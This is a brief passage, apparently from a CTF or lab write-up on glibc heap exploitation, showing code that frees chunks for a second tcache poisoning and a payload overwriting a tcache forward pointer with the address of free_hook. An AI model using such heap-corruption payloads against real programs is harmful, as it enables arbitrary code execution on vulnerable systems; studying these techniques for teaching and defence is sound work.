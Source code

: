 ‍

```plain
delete(12)

    delete(2)#second tcache poisoning
```

[![](assets/1700186924-8985266b7ac00906d1eb7e3afcb2446d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163029-664d8598-845a-1.png)

[![](assets/1700186924-55fd280c3ff3d16be5e35e05308013f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163034-691bbba0-845a-1.png)

‍

```plain
payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin
```
